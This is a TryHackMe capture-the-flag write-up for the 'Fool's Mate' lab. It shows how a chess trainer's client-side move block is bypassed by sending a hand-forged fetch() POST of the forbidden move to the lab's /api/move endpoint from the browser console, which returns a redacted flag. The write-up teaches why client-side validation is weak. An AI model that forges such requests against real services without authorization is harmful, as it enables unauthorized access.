






# TryHackMe — Fool's Mate

**Category:** Web Exploitation / Logic Bypass
**Difficulty:** Easy

## Overview

`Fool's Mate` presents a small web app called **EndgameTrainer**, which loads a chess position and asks the player to find _mate in one_. The position given is trivial for anyone with basic chess knowledge:

```
8/pp3p pk1...
White: Ra1, Kg1, pawns f2 g2 h2
Black: Kg8, pawns f7 g7 h7
```

Playing **Ra1–a8#** is checkmate. The challenge, however, isn't really about chess — it's about how the client enforces (or fails to enforce) game logic.



## Recon

Loading the page shows the `EndgameTrainer` board with the position above and a prompt confirming it's "Mate-in-one · White to move".

Dragging the rook from `a1` to `a8` — the actual mating move — doesn't play the move at all. Instead, a fake Windows-style error popup flashes on screen for a split second:

> `/usr/lib32` — "I'll shut down your PC if you play that."



This is clearly a scare tactic, not a real system dialog — it's rendered inside the page's own DOM. That was the first hint: **the checkmate move is being intercepted and blocked entirely on the client side**, before anything reaches the server.

## Confirming the client-side block

To verify this, I opened Firefox DevTools → **Network** tab and replayed the mating move (`a1` → `a8`) while capturing traffic.

Result: **no request was sent at all**. The Network panel stayed empty — the JS front-end short-circuits the move locally and shows the fake popup instead of ever calling the API.



To make sure the backend itself was reachable and working, I played a **different, non-winning move** instead (e.g. `Rb1`). This time a legitimate `POST` request to `/api/move` went out and got a `200 OK` response.



This confirmed the theory:

- The move validation/blocking ("you can't play that, mate-in-one is forbidden") is **entirely client-side logic**.
- The actual move execution and win condition are validated **server-side**, via `POST /api/move`.
- Since the client just decides whether or not to _send_ the request, nothing stops us from sending the exact request ourselves.

## Exploitation

Using the legitimate move's request as a template, I reset the board and forged the `fetch()` call directly from the DevTools console, replacing the body with the real mating move (`a1` → `a8`):

```js
await fetch("http://10.128.184.74/api/move", {
  credentials: "omit",
  headers: {
    "User-Agent":
      "Mozilla/5.0 (X11; Linux x86_64; rv:152.0) Gecko/20100101 Firefox/152.0",
    Accept: "*/*",
    "Accept-Language": "en-US,en;q=0.9",
    "Content-Type": "application/json",
    Priority: "u=0",
  },
  referrer: "http://10.128.184.74/",
  body: '{"from":"a1","to":"a8"}',
  method: "POST",
  mode: "cors",
});
```



Since the client-side popup never gets a chance to run — the move is sent directly to the API, bypassing the fake UI restriction — the server processed it as a normal, legal move.

## Result

The API accepted the move and returned the game state as JSON, confirming checkmate and handing back the flag:

```json
{
  "ok": true,
  "move": "a1a8",
  "fen": "R5k1/5ppp/8/8/8/8/5PPP/6K1 b -- 1 1",
  "status": "checkmate",
  "turn": "b",
  "winner": "white",
  "flag": "THM{*******}"
}
```



---

_Writeup by RIACHE Samy — TryHackMe: Fool's Mate_
Thanks for reading!
